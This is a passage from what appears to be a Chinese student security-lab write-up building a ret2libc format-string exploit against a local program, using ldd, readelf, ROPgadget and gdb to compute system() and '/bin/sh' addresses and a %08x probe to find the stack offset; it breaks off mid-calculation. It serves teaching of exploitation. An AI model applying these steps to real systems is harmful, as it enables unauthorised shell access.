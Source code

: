 ```shell
gcc -fstack-protector -z noexecstack -o prog2 prog2.c
```

###### 通过libc的基地址和内部函数的相对偏移获得ret2libc的函数地址

```shell
ldd prog2
```

![李欣宇-信安1901-U201911658-lab11537](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab11537.png)

​		获取system和bin/sh相对lib偏移

​		system()函数偏移：0x0003ada0

​		字符串"/bin/sh"偏移：0x0015b82b

```shell
readelf -a /lib/i386-linux-gnu/libc.so.6 | grep " system"
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --string /bin/sh
```

![李欣宇-信安1901-U201911658-lab11668](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab11668.png)

​		在gdb中获取库装入地址0xb7d6a000

```shell
gdb prog2
start
vmmap
```

![李欣宇-信安1901-U201911658-lab11765](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab11765.png)

​		system()函数偏移：0x0003ada0 + 0xb7d6a000 = 0xb7da4da0

​		字符串"/bin/sh"偏移：0x0015b82b + 0xb7d6a000 = 0xb7ec582b

###### 寻找ret和system参数位置

![李欣宇-信安1901-U201911658-lab11886](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab11886-16563207443621.png)

​		栈帧指针的value=ebp，故ret=ebp+4=0xbffff3ac

​		而通过ret调用system()时是模拟已经将参数压栈后的结果，故参数的位置是ret+4+4=0xbffff3b4

###### 构造shellcode

```shell
echo "ABCD|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|%08x|" > badfile
./prog2
```

![李欣宇-信安1901-U201911658-lab12138](%E4%BF%A1%E5%AE%89%E5%AE%9E%E9%AA%8C.assets/%E6%9D%8E%E6%AC%A3%E5%AE%87-%E4%BF%A1%E5%AE%891901-U201911658-lab12138.png)

​		可以从上图观察到字符串首位位于16个字节后，也就是偏移120，采用%hn进行填充则地址占用4*4=16字节，占位符4\*3=12字节，故4 * 4 + 4 * 3 + 15 * 8 = 16 + 12 + 120 = 148，又因为system()函数： 0xb7da4da0，字符串"/bin/sh"：0xb7ec582b，则有，按两字节进行分割，从小到大进行排序分别为0x4da0h、0x582bh、0xb7dah、0xb7ech,进行计算如下：
